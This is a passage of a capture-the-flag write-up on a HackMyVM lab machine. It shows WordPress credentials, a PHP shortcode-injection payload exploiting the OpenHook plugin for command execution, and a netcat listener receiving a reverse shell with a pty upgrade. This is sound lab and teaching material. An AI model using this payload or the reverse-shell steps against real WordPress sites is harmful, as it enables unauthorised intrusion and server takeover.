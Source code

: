 ```
{: .nolineno}
{: .nolineno}
umeko : fuckit!
```
{: .nolineno}
{: .nolineno}

Now I loggedin into the wordpress site and I have limited resources to do only I can publish a post also while doing the enumeration on wpscan I noticed about a plugin called as OpenHook Plugin that is vulnerable to shortcode Injection that can lead to RCE from here → 

[**Exploit**](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/thesis-openhook/openhook-430-authenticated-subscriber-remote-code-execution-via-shortcode) 

So I tried to implement this exploit on this environment →

```php
[php]
<?php system('id') ?>
[/php]
```
{: .nolineno}
{: .nolineno}
{: file='shortcode_script'}

I changed the author name to admin and added this shortcode in Code Editor View then I updated the changes and loaded the URL →

![Untitled](Tiny/Untitled%208.png)

From above code I got this →

![Untitled](Tiny/Untitled%209.png)

Now I have command Execution functionality so lets have a reverse shell now →

![Untitled](Tiny/Untitled%2010.png)

as a result I got this response →

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Tiny]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.0.2.77] from (UNKNOWN) [10.0.2.79] 52822
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@tiny:/var/www/html$ whoami
whoami
www-data
www-data@tiny:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@tiny:/var/www/html$
```
{: .nolineno}
{: .nolineno}
